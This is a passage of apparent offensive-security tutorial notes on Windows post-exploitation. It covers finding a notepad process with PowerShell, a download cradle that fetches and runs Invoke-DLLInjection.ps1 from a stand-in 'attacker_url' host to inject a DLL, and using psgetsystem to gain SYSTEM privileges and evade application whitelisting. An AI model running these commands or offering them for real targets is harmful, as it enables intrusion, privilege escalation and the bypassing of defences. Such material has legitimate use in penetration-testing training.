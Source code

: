 
we should identify a process on the target system we'd like to inject our DLL into. We can simply run
the ps command from the PowerShell console

In this example, we'll run the ps command with a where-object statement to look for a process 
that matches "notepad", and we'll inject our DLL into that process


//space after underscore to remove italics in this md doc
PS C:\> ps | ? {_ .ProcessName -match "notepad"} 


Once we've downloaded our DLL to the target, and identified the process we're going to inject into, 
such as "notepad.exe process ID 7420", we cna use another download cradle (this time the "DownloadString"
method) to download and execute the Invoke-DLLInjection.ps1 script from our attacker system, along with 
the correct arguments for injecting our DLL into that existing process


PS C:\> iex (New-Object Net.WebClient).DownloadString('http://attacker_url/Invoke-DLLInjection.ps1'); Invoke-DLLInjection -ProcessID 7420 C:\programdata\cmd.dll


Once that is complete, if we run the ps command again, we can confirm that we now have a cmd process
which has been spawned from our DLL injection operation, which is created in a new process thread



# A great explanation of the basics of how DLL injection works can be found here 

http://blog.opensecurityresearch.com/2013/01/windows-dll-injection-basics.html



# Psgetsystem

another great tool by decoder-it is psgetsystem and can be downloaded here: 

https://github.com/decoder-it/psgetsystem



Psgetsystem allows us to get SYSTEM privileges via a parent process, which then spawns a child process
which effectively inherits the SYSTEM access privileges of the parent

Although this tool needs to be run as Administrator, it's a great way to evade application whitelisting
solutions by being able to inject ourselves into an already signed or other trusted process

Once we've downloaded the psgetsystem.ps1 script to our target, we can source it and execute its class
function with the following commands:

PS C:\> . .\psgetsystem.ps1
PS C:\> [MyProcess]::CreateProcessFromParent(<system_pid>, "<command_to_execute>")
